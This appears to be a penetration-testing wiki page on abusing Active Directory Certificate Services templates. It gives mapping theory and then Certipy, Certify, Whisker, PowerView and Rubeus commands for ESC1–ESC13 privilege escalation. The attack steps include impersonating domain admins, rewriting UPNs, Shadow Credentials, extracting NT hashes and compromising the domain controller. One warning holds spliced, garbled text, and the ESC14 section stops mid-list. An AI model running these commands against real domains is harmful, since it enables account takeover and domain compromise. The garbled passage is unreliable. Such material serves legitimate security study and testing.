


# Certificate templates

## Theory

### Template theory

> AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. These templates are collections of enrollment policies and predefined certificate settings and contain things like “_How long is this certificate valid for?_”, _“What is the certificate used for?”,_ “_How is the subject specified?_”, _“Who is allowed to request a certificate?”_, and a myriad of other settings
>
> \[...]
>
> There is a specific set of settings for certificate templates that makes them extremely vulnerable. As in regular-domain-user-to-domain-admin vulnerable.
>
> ([specterops.io](https://posts.specterops.io/certified-pre-owned-d95910965cd2))

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) found multiple vectors of domain escalation based on certificate template misconfigurations (dubbed [ESC1](https://posts.specterops.io/certified-pre-owned-d95910965cd2#180f), [ESC2](https://posts.specterops.io/certified-pre-owned-d95910965cd2#dfa4) and [ESC3](https://posts.specterops.io/certified-pre-owned-d95910965cd2#c08e)).

Following this, [Olivier Lyak](https://twitter.com/ly4k_) has found two new template misconfigurations (dubbed [ESC9](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7) and [ESC10](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)).



### Certificate mapping

This section focuses on how a certificate is associated with an account object. Certificate mapping is the part of certificate authentication where the DC takes the principal (user or computer) data provided in the certificate used during authentication, and attempts to map it to a user or computer in the domain.

Understanding certificate mapping is essential to understand [ESC9](certificate-templates.md#no-security-extension-esc9), [ESC10](certificate-templates.md#weak-certificate-mapping-esc10) and [ESC14](certificate-templates.md#weak-explicit-mapping-esc14).

Mapping can be implicit or explicit, and strong or weak. These two notions work together, and the mapping of a certificate will use one option of each part (implicit and strong, or explicit and strong, and so on).

#### Implicit certificate mapping

With implicit mapping, the information contained in the certificate's SAN (_Subject Alternative Name_) is used to match the UPN attribute (`userPrincipalName`) for a user or the DNS attribute (`dNSHostName`) for a machine account. In the case of a user account, the `otherName` component of the SAN is used, and for a machine account it is `dNSName`.

If the UPN mapping fails, the DC will attempt to match the username contained in `otherName` with the `sAMAccountName` attribute, and then with `sAMAccountName` suffixed with a `$`. Similarly, if DNS mapping fails, the DC will attempt to match the hostname contained in `dNSName` suffixed with a `$` with the `sAMAccountName`.

#### Explicit certificate mapping

For an explicit match, the `altSecurityIdentities` attribute of an account (user or machine) must contain the identifiers of the certificates with which it is authorised to authenticate. The certificate must be signed by a trusted certification authority and match one of the values in the `altSecurityIdentities` attribute.

The matches that can be added to the attribute are strings that follow a syntax defined with the identifiers of a certificate: 



These identifiers can be found in the various fields of an X509 v3 certificate.

In AD CS, the certificate template specifies how the CA should populate the `Subject` field and the SAN extension of the certificate based on the enrollee's AD attributes.

#### Certificate attributes

Before explaining weak and strong labels, it is important to talk about certificate attributs. The options in the "Subject Name" tab of the Windows Certificate Template Console correspond to the flags in the `msPKI-Certificate-Name-Flag` attribute of the certificate template. Flags whose names follow the pattern `CT_FLAG_SUBJECT_REQUIRE_<attribute>` relate to the information contained in the `Subject` field of the certificate, and `CT_FLAG_SUBJECT_ALT_REQUIRE_<attribute>` relates to the SAN extension.

When a certificate template requires an attribute from the enrolled account, but the enrolled account does not have that attribute or it is not defined, the behaviour may differ. Most flags are strong requirements (i.e. enrolment fails if the attribute is not defined for the enrolled account), but there are exceptions, as shown in the table below: 


Some flags prevent default users/computers from enrolling in a given certificate scheme, because the required attributes are not set by default:

* `mail`: the mail attribute for users and computers is not set by default
* `dNSHostName`: users do not have a `dNSHostName` attribute, so users cannot enroll in certificate templates requiring `dNSHostName`; computers will have their `dNSHostName` attribute set when the computer is attached to a domain, but the attribute will not be set automatically simply by creating a computer object in the AD
* `userPrincipalName`: the UPN attribute is not set by default for computers, but it is for users
* `cn` : all AD objects have a `cn` attribute set by default

#### Weak and strong mapping

As explained before, _weak_ and _strong_ "labels" are applied to certificate mapping and will influence on the final behavior of explicit and implicit mappings during Kebreros and Schannel authentications.

Following [CVE-2022–26923](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) ([certifried.md](certifried.md)) discovered by [Olivier Lyak](https://twitter.com/ly4k_), Microsoft has implemented a new security extension for the issued certificates, and two new registry keys to properly deal with certificate mapping.

* The `szOID_NTDS_CA_SECURITY_EXT` extension contains the `objectSid` of the requester and is used during implicit strong mapping
* The `StrongCertificateBindingEnforcement` registry key is used for Kerberos mapping
* The `CertificateMappingMethods` registry key is used for Schannel implicit mapping

Kerberos authentication

In the case of Kerberos authentication, the introduction of _strong_ mapping for implicit matching means that the object's SID can be used (via the `szOID_NTDS_CA_SECURITY_EXT` certificate extension) rather than the UPN and DNS, which can be easily spoofed.

In the case of explicit mapping, the update has implemented _weak_ and _strong_ "labels" on the mapping types (see table in the Explicit certificate mapping section above). The use of strong mapping implies the use of the corresponding mapping types.

During Kerberos authentication, the certificate mapping process will call the `StrongCertificateBindingEnforcement` registry key. This key can be equal to three values:

* `0`: no strong certificate mapping is realised. The new `szOID_NTDS_CA_SECURITY_EXT` extension is not check, all explicit mappings are allowed (see comments below) and the authentication behaviour is similar to what was done before the patch. This mode is no longer effective since 11/04/2023, and indicating the value `0` in the key is now equivalent to indicating `1`
* `1`: default value after the patch. If explicit mapping is present, authentication is allowed. Otherwise, in the implicit case, weak mapping is authorised if the certificate does not contain an SID in the `szOID_NTDS_CA_SECURITY_EXT` extension and the account predates the certificate. This mode will end on 11/02/2025
* `2`: only strong mapping is allowed. In implicit the `szOID_NTDS_CA_SECURITY_EXT` extension must be present and contain the object's SID, in explicit only strong types are authorised. In all other cases, authentication is refused.

If the registry key value is `0` and the certificate contains an UPN value (normally for a user account), as seen previously, the KDC will first try to associate the certificate with a user whose `userPrincipalName` attribute matches. If no validation can be performed, the KDC looks for an account whose `sAMAccountName` property matches. If it doesn't find one, it tries again by adding a `$` to the end of the user name. That way, a certificate with a UPN can be associated with a machine account.

If the registry key value is `0` and the certificate contains an DNS value (normally for a machine account), the KDC splits the user and the domain part, i.e. `user.domain.local` becomes `user` and `domain.local`. The domain part is validated against the Active Directory domain, and the user part is validated adding a `$` at the end, and searching for an account with a corresponding `sAMAccountName`.

If the registry key value is `1` or `2`, and no explicit mapping is in place, the `szOID_NTDS_CA_SECURITY_EXT` security extension will be used to implicitly map the account using its `objectSid`. If the registry key is set to `1` and no security extension is present, the mapping behaviour is similar to that of a registry key set to `0`.

To support compatibility mode, Microsoft has introduced the `CT_FLAG_NO_SECURITY_EXTENSION` flag for the `msPKI-Enrollment-Flag` attribute of certificate templates. If present, the CA will not include the user's SID when issuing certificates (see [ESC9](certificate-templates.md#no-security-extension-esc9)).

As indicated by Jonas Bülow Knudsen [in his article](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9), observations can be done regarding Kerberos authentication:

* UPN mapping blocks explicit mapping: if the certificate has the `otherName` component in the SAN extension, the KDC will attempt an implicit UPN match and authentication will fail if it fails; the KDC will not attempt an explicit match in this case, but will do so in all other cases
* DNS mapping does not block explicit mapping: you can use a certificate with `dNSName` in the SAN for implicit DNS mapping, but explicit mapping against users and computers works too
* the `X509RFC822` (email) mapping does not work for computers: adding an `X509RFC822` mapping to a computer has no effect; the KDC does not allow authentication using a certificate whose corresponding email is defined in the `rfc822Name` component under the SAN extension. However, it is possible to enrol on a certificate as a computer with the mail attribute and use it to authenticate as a user using the `X509RFC822` mapping
* the `X509SubjectOnly` and `X509IssuerSubject` mappings are blocked by the mail in the `Subject` field: if the certificate template has the `CT_FLAG_SUBJECT_REQUIRE_EMAIL` attribute, so that the certification authority adds the value of the mail attribute to the `Subject` field of the certificate, it is not possible to perform the explicit `X509SubjectOnly` and `X509IssuerSubject` mappings
* the full DN cannot be used in the `X509SubjectOnly` and `X509IssuerSubject` mappings: the `distinguishedName` cannot be used in the `X509SubjectOnly` and `X509IssuerSubject` mappings, so the certificate template cannot have the `SUBJECT_REQUIRE_DIRECTORY_PATH` flag for these mappings

It is worth noting that registry parameters only apply on the host on which they are configured. This means that domain controllers is the same Active Directory domain (or forest) can have different configurations for `UseSubjectAltName` and `StrongCertificateBindingEnforcement`, some of which allow weak certificates to be mapped, while others do not.

Schannel authentication

During Kerberos authentication, the certificate mapping process will call the `CertificateMappingMethods` registry key. This key can be a combinaison of the following values:

* `0x0001`: subject/issuer explicit mapping
* `0x0002`: issuer explicit mapping
* `0x0004`: SAN implicit mapping
* `0x0008`: S4USelf implicit Kerberos mapping
* `0x0010`: S4USelf explicit Kerberos mapping

The current default value is `0x18` (`0x8` and `0x10`). Schannel doesn't support the new `szOID_NTDS_CA_SECURITY_EXT` security extension directly, but it can use it by "converting" the Schannel certificate mapping to a Kerberos certificate mapping using S4USelf. Then, the mapping will be performed as presented in the Kerberos authentication section.

If some certificate authentication issues are encountered in an Active Directory, [Microsoft has officially suggested](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16) to set the `CertificateMappingMethods` value to `0x1f` (old value).

#### Issuance policies

It is possible to apply issuance policies to certificate templates. This takes the form of a certificate extension, and is stored as an OID (object identifier) in the `msPKI-Certificate-Policy` attribute of the template. When the CA issues the certificate, the policy is added to the "Certificate Policies" attribute of the certificate. A template stores required policies in the `msPKI-RA-Policies` attribute.

An issuance policy can be set up by a company, for example, for access control: a system can require a user to present a certificate with a given policy in order to guarantee that the system only grants access to authorised users. Issuing policies are `msPKI-Enterprise-Oid` objects found in the PKI OID container (`CN=OID,CN=Public Key Services,CN=Services`, in the Configuration Naming Context).

This object has an `msDS-OIDToGroupLink` attribute which allows a policy to be linked to an AD group so that a system can authorise a user presenting the certificate as if he were a member of this group. As explained by [Jonas Bülow Knudsen](https://twitter.com/Jonas_B_K) in [his ADCS ESC13 article](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53).

> If you perform client authentication with the certificate, then you will receive an access token specifying the membership of this group.
> 
> ([specterops.io](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53))

## Practice

### (ESC1) Template allows SAN 

When a certificate template allows to specify a `subjectAltName`, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies `Client Authentication` or `ANY`.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios. 

Once a vulnerable template is found ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate.

```bash
#To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

> [!WARNING]
> The `$ADCS_HOST` target must be a FQDN (not an IP).

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

:::


### (ESC2) Any purpose EKU 

When a certificate template specifies the Any Purpose EKU, or no EKU at all, the certificate can be used for anything. ESC2 can't be abused like ESC1 if the requester can't specify a SAN, however, it can be abused like ESC3 to use the certificate as requirement to request another one on behalf of any user.

### (ESC3) Certificate Agent EKU 

When a certificate template specifies the Certificate Request Agent EKU, it is possible to use the issued certificate from this template to request another certificate on behalf of any user.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC3 scenario. It is possible to output the result in an archive that can be uploaded in Bloodhound.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -vulnerable
```

Once a vulnerable template is found ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User' -on-behalf-of 'domain\domain admin' -pfx 'user.pfx'
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.


=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User" /onbehalfon:DOMAIN\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

:::


### (ESC9) No security extension 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

If the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`, the `szOID_NTDS_CA_SECURITY_EXT` extension will not be embedded, meaning that even with `StrongCertificateBindingEnforcement` set to `1`, the mapping will be performed similarly as a value of `0` in the registry key.

Here are the requirements to perform ESC9:

* `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> Acate can then be used with to obtain a TGT and authenticat the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` or the `CertificateMappingMethods` values. It is worth to try the attack hopping the keys are misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, user1 has `GenericWrite` against user2 and wants to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

The vulnerable certificate can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

The vulnerable certificate can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```

:::


### (ESC10) Weak certificate mapping 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

This ESC refers to a weak configuration of the registry keys:

#### Case 1

 * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs

=== Unix-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash with [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

A certificate permitting client authentication can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```

:::

#### Case 2

 * `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)

> [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `CertificateMappingMethods` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario. 

In this scenario, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@domain.local'} -Verbose
```

A certificate permitting client authentication can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

:::


### (ESC13) Issuance policiy with privileged group linked

For a group to be linked to an issuance policy via `msDS-OIDToGroupLink` it must meet two requirements:

* Be empty
* Have a universal scope, i.e. be "Forest Wide". By default, "Forest Wide" groups are "Enterprise Read-only Domain Controllers", "Enterprise Key Admins", "Enterprise Admins" and "Schema Admins"

So, if a user or a computer can enroll on a template that specifies an issuance policy linked to a highly privileged group, the issued certificate privilegies will be mapped to those of the group.

To exploit ESC13, here are the requirements:

* The controlled principal can enroll to the template and meets all the required issuance policies
* The template specifies an issuance policy
* This policy is linked to a privileged groups via `msDS-OIDToGroupLink`
* The template allows the Client Authentication in its EKU
* All the usual requirements

::: tabs

=== UNIX-like

From UNIX-like systems, this [pull request](https://github.com/ly4k/Certipy/pull/196) on Certipy (Python) permits to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty. Additionally, it verifies if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.

```bash
certipy find -u '$USER@$DOMAIN' -p '"$PASSWORD' -dc-ip '$DC_IP'
```

If a vulnerable template is found, there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, request a certificate for this template with [Certipy](https://github.com/ly4k/Certipy) (Python) as usual:

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Vulnerable template'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.


=== Windows

From Windows systems, the ActiveDirectory PowerShell module can be used to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty.

```powershell
Get-ADObject "CN="Vulnerable template",$TemplateContainer" -Properties msPKI-Certificate-Policy
```

Then, if there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, verify if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.

```powershell
Get-ADObject "CN=$POLICY_ID,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
```

Now, request a certificate for this template with [Certify](https://github.com/GhostPack/Certify) (C#) as usual:

```powershell
.\Certify.exe request /ca:domain\ca /template:"Vulnerable template"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.

:::


### (ESC14) Weak explicit mapping

This attack exploits configuration errors when explicit mapping is set up. To understand this ESC, it is essential to have a good command of [Certificate mapping](certificate-templates.md#certificate-mapping).

There are four possible attack scenarios for exploiting ESC14. In all cases, the following prerequisites must be met:

> [!WARNING]
> * the attacker has compromised a victim account and is able to request certificates with this account, and wants to compromise a target account
> * the certificate template allows the victim to enroll
> * the victim matches all the prerequisites for issuing the certificate
> * the certificate template allows for authentication
